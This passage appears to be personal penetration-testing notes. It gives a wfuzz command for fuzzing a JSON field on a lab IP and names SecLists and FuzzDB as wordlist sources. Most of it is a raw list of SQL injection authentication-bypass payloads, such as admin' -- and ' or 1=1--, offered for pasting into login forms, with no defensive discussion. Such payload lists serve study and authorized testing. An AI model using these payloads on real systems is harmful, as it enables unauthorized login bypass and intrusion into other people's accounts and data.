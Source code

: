- Automate the detection task with FUZZ  

		wfuzz -u http://10.10.10.179/some/url -w /opt/seclists/fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -c -s 3

		-d:  
		-c:  
		-s:  

- Wordlists 

	- Seclist
	- Fuzzdb
	- Custom list in `toolbox`

- Notes: Check the syntax with or without the )*  

## SQLi Auth Bypass

		'-'
		' '
		'&'
		'^'
		'*'
		' or ''-'
		' or '' '
		' or ''&'
		' or ''^'
		' or ''*'
		"-"
		" "
		"&"
		"^"
		"*"
		" or ""-"
		" or "" "
		" or ""&"
		" or ""^"
		" or ""*"
		or true--
		" or true--
		' or true--
		") or true--
		') or true--
		' or 'x'='x
		') or ('x')=('x
		')) or (('x'))=(('x
		" or "x"="x
		") or ("x")=("x
		")) or (("x"))=(("x
		or 1=1
		or 1=1--
		or 1=1#
		or 1=1/*
		admin' --
		admin' #
		admin'/*
		admin' or '1'='1
		admin' or '1'='1'--
		admin' or '1'='1'#
		admin' or '1'='1'/*
		admin'or 1=1 or ''='
		admin' or 1=1
		admin' or 1=1--
		admin' or 1=1#
		admin' or 1=1/*